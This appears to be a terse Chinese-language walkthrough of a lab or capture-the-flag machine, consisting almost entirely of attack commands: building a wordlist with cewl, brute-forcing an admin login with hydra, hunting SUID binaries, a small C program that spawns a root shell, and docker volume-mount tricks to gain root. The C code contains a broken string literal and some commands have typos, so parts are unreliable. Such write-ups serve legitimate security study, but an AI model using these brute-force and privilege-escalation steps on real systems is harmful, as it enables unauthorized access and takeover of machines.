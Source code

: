 ## 0x00

`cewl http://192.168.43.179/websec/`爬取页面所有的单词做成字典

`hydra -l contact@hacknos.com -P cewl.txt 192.168.43.179 http-post-form "/websec/admin:username=^USER^&password=^PASS^:Wrong email or password"` 超强爆破

## 0x01

```
find /usr/bin -type f -perm -u=s 2>/dev/null
```

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc,char *argv[])
{
setreuid(0,0);
execve("/bin/bash,NULL,NULL);
} 
gcc suid.c -o exp
```

**docker提权**

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`搞个容器先

```
dokcer images + ID 389fef711851
```

```
docker run -it -v /:/mbt +ID
```

